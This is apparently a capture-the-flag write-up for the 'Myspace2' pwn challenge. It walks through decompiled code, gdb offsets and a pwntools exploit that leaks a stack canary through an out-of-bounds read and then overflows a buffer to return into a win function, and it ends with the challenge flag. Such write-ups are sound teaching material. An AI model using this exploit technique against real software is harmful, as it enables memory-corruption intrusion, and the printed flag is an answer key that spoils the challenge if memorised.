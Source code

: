 ```yaml
---
description: a ret2win with canary bypass pwn challenge
---
```


# Myspace2

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

given an ELF file.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

we see here the ELF file has a stack canary. Then we run the program

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

then we decompile the program using ghidra

main:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("I really miss MySpace. At least the part about ranking my friends. Let\'s recreate it!");
  local_78 = 0x6e316e337365;
  local_70 = 0x6f72655a;
  local_68 = 0x6e6f72746e6f43;
  local_60 = 0x317978696d;
  local_58 = 0x4c68736f4a;
  local_50 = 0x70707070616947;
  local_48 = 0x746e6f6673656349;
  local_40 = 0x78636974637261;
LAB_00401636:
  menu();
  fgets(local_38,0x28,stdin);
  iVar1 = FUN_00401160(local_38);
  if (iVar1 == 4) {
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      display_friend(&local_78);
      goto LAB_00401636;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        all_friends(&local_78);
      }
      else {
        if (iVar1 != 2) goto LAB_004016cd;
        edit_friend(&local_78);
      }
      goto LAB_00401636;
    }
  }
LAB_004016cd:
  puts("Invalid option.");
  goto LAB_00401636;
}
```

this ELF has two vulnerabilities. one at edit\_friend and another at display\_friend.

```c
void edit_friend(long param_1)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to edit (0-7): ");
  fgets(local_48,0x20,stdin);
  iVar1 = FUN_00401160(local_48);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  else {
    puts("Enter new name: ");
    fgets((char *)((long)iVar1 * 8 + param_1),0x100,stdin);
    sVar2 = strcspn((char *)(param_1 + (long)iVar1 * 8),"\n");
    *(undefined *)((long)iVar1 * 8 + param_1 + sVar2) = 0;
    puts("Friend updated.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void display_friend(long param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to display (0-7): ");
  fgets(local_28,0x10,stdin);
  iVar1 = FUN_00401160(local_28);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  write(1,(void *)(param_1 + (long)iVar1 * 8),8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

now for the exploit part. first we leak canary by exploiting arbitrary read vuln at display\_friend then we ret2win by exploiting buffer overflow vuln at edit\_friend.

we then use gdb to see the memory offsets

```armasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401584 <+0>:	endbr64
   0x0000000000401588 <+4>:	push   rbp
   0x0000000000401589 <+5>:	mov    rbp,rsp
   0x000000000040158c <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401590 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401599 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040159d <+25>:	xor    eax,eax
   0x000000000040159f <+27>:	mov    rax,QWORD PTR [rip+0x2aba]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004015a6 <+34>:	mov    ecx,0x0
   0x00000000004015ab <+39>:	mov    edx,0x2
   0x00000000004015b0 <+44>:	mov    esi,0x0
   0x00000000004015b5 <+49>:	mov    rdi,rax
   0x00000000004015b8 <+52>:	call   0x401150 <setvbuf@plt>
   0x00000000004015bd <+57>:	lea    rax,[rip+0xb24]        # 0x4020e8
   0x00000000004015c4 <+64>:	mov    rdi,rax
   0x00000000004015c7 <+67>:	call   0x4010d0 <puts@plt>
   0x00000000004015cc <+72>:	movabs rax,0x6e316e337365
   0x00000000004015d6 <+82>:	mov    QWORD PTR [rbp-0x70],rax
```

this might seem confusing, but when we combine with ghidra decompile info, we know that main <+82> is where 'friends' array started and it is stored in **rbp-0x70**. We can also see where the canary is located, which is main <+21> and is stored in **rbp-0x8**.

Now we can calculate the offsets:

*   friends to canary:

    Offset = (Canary addr) - (Friends beginning addr)

    Offset = (rbp-0x8) - (rbp-0x70)

    Offset = -0x8 + 0x70 = **0x68 bytes (104 in decimal)**&#x20;
*   Canary leak:

    *   Display\_friend() function reads address from **friends\_addr + index \* 8**.

        Canary\_addr = friends\_addr + index \* 8

        (friends\_addr) + 0x68 = (friends\_addr) + index \* 8

        0x68 = index \* 8

        index = 0x68/8 = 104/8 = **13**



now after we got all the offsets we construct our exploit:

```python
from pwn import *

#p = process('./myspace2')
p = remote('myspace2.chal.idek.team', 1337)

def leak(index):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'Enter index to display (0-7):', str(index).encode())
    p.recvuntil(b'Invalid index!\n')
    leaked = p.recv(8)
    return u64(leaked)

# Leak canary
canary = leak(13)
print(f"Canary: {hex(canary)}")

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'Enter index to edit (0-7):', b'0')

payload = b"A" * 104
payload += p64(canary)
payload += b"B" * 8
payload += p64(0x40129d)  # get_flag

p.sendlineafter(b'Enter new name:', payload)
p.sendlineafter(b'>>', b'4')
p.interactive()
```

#### Flag: idek{b4bys\_1st\_c00k1e\_leak\_yayyy!}
